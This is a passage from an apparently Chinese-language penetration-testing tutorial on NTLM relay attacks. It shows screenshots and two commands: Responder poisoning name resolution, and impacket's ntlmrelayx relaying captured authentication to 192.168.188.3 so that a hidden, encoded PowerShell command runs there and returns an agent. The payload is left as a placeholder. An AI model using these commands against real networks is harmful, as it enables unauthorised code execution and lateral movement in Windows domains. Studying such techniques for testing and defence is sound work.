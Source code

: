 ```plain
Responder -I eht0 -r -d –v
```

[![](assets/1701222524-21c356834d4dc1d8955d2d301efb6233.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144628-db440e0e-8db9-1.png)  
Step 5：之后使用impacket中的ntlmrelayx执行以下命令，条命令是对中继成功的机器自动执行powershell并获取agent，powershell脚本放在引号中

```plain
ntlmrelayx.py -t 192.168.188.3 -c 'powershell -noP -sta -w 1 -enc [powershell code]'
```

[![](assets/1701222524-4d65bec0a769caffc961323c5496afcf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144700-ee6c8a24-8db9-1.png)  
Step 6：在域控上创建共享操作
